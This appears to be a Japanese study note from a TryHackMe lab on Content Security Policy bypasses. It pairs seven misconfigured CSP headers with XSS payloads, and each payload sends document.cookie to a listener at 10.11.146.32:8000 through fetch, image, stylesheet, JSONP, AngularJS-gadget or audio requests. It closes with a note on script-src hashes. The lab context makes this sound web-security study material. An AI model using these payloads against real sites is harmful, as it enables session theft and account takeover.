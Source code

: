# CSP (Content Security Policy)

https://tryhackme.com/room/csp

https://csp-evaluator.withgoogle.com/

https://book.hacktricks.wiki/en/pentesting-web/content-security-policy-csp-bypass/index.html?highlight=CSP#unsafe-csp-rules

## 設定不備と攻撃方法のパターン

### 1 unsafe-inline

```http
Content-Security-Policy: default-src * 'unsafe-inline';
```

```html
<script>fetch(`http://10.11.146.32:8000/${document.cookie}`)</script>
```

### 2 script-src data

```http
Content-Security-Policy: default-src *; style-src 'self'; script-src data:
```

```html
<script src="data:application/javascript,fetch(`http://10.11.146.32:8000/${document.cookie}`)"></script>
```

### 3 img-src

```http
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-inline'
```

```html
<script>(new Image()).src = `http://10.11.146.32:8000/${encodeURIComponent(document.cookie)}`</script>
```

### 4 nonce, style-src

※nonceが予測不能であれば成立しない

```http
Content-Security-Policy: default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'
```

```html
<script nonce="abcdef">
  var l = document.createElement("link");
  l.rel = "stylesheet";
  l.href = "http://10.11.146.32:8000/" + encodeURIComponent(document.cookie);
  document.head.appendChild(l);
</script>
```

### 5 unsafe-eval, subdomain, JSONP

```http
Content-Security-Policy: default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com
```

```html
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='http://10.11.146.32:8000/'.concat(document.cookie))"></script>
```

### 6 cloudflare gadget

```http
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-eval' cdnjs.cloudflare.com
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>{{$on.curry.call().document.location='http://10.11.146.32:8000/' + $on.curry.call().document.cookie}}</div>
```

### 7

```http
Content-Security-Policy: default-src 'none'; media-src *; style-src 'self'; script-src 'self'
```

```html
<script src="/'; new Audio('http://10.11.146.32:8000/' + document.cookie); '"></script>
```

## shaハッシュについて

例えば、`<script>console.log("__defend-3_REAL=true")</script>` というスクリプトのハッシュを計算するのは下記のようにする。

```
$ echo -n 'console.log("__defend-3_REAL=true")' | openssl dgst -sha256 -binary | base64
8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo=
```

最終的に

```
script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo='
```